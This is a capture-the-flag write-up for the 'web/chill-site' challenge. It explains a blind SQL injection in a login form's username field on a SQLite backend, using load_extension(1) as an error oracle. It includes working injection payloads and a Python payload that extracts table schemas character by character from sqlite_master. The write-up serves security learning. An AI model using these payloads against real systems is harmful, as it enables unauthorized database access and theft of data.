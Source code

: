 ## Challenge: `web/chill-site` – 27 Solves

### Challenge Overview

The application provides a login form at `POST /`, with the following behavior:

- On **correct** logic:  
    → Response: `HTTP/2 302 Found`

- On **incorrect** logic or exceptions:  
    → Response: `"KABOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOM. Johnny law's here for ya."`


From this, it’s clear we’re dealing with a **blind SQL injection**—in particular, a time-based or error-based inference technique.

### Injection Point

The `username` field in the POST request is injectable:

```http
POST /
Content-Type: application/x-www-form-urlencoded

username=...&password=no
```

### Strategy – Exploiting Blind SQLi in SQLite

The backend uses SQLite, so the payloads had to respect SQLite’s dialect and error behavior.

We found that the error path (`load_extension(1)`) triggers an exception on invalid conditions, making it suitable for **control flow inference**.

Example payload:

```SQL
username=1111' + EXCEPT SELECT 1,
  CASE WHEN (SELECT count(user) FROM database LIMIT 1) > 3
       THEN 1
       ELSE load_extension(1)
  END,
3 FROM database LIMIT 1/*
&password=no
```

This payload returns `302` if the count is greater than 3, otherwise a “KABOOM” response.

### Enumerating Tables

Using `sqlite_master`, we dumped table names:

```python
payload = (
    f"username=1111'+EXCEPT+SELECT+2,"
    f"CASE+WHEN+(SELECT+unicode(substr(sql,{pos},1))={ascii_val}+FROM+sqlite_master+WHERE+type='table'+LIMIT+1)=1"
    f"+THEN+1+ELSE+load_extension(1)+END,3+FROM+sqlite_master+LIMIT+1/*&password=no"
)
```
